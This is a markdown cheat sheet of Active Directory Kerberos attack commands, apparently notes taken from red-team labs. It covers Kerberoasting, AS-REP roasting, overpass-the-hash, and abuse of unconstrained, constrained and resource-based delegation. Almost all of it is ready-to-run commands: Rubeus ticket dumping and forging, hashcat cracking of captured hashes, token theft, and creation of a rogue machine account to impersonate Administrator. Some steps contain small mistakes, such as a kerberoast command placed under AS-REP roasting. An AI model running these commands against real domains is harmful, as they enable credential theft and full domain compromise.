 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe  kerberoast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be # krbtgt/insomnia.ninja along with LUID
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x21d8e17 /ticket:[...snip...]
steal_token 4652
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
powershell Get-DomainComputer -TrustedToAuth -Properties distinguishedname,msds-allowedtodelegateto,useraccountcontrol -Verbose | fl 
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo #To find what services it could delegate for
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:JOHN-PC$ /msdsspn:cifs/John-PC.acmebank.local /ticket:
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x239b995 /ticket:[...snip...]
steal_token 3420
ls \\fs-1.cyberbotic.io\c$
```
### Resource-based Constrained Delegation
service administrators/owners can configure which domain accounts are allowed to delegate to them.
```
Import-Module .\Powermad.psd1

New-MachineAccount -Domain insomnia.io -DomainController 192.168.100.1 -MachineAccount Evil_genius -Password (ConvertTo-SecureString 'Password!@#' -AsPlainText -Force) -Verbose

Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1

Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount Evil_genius$ -Verbose

Rubeus.exe s4u /user:Evil_genius$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
Enter-PSSession -ComputerName ops-sqlsrvone
```

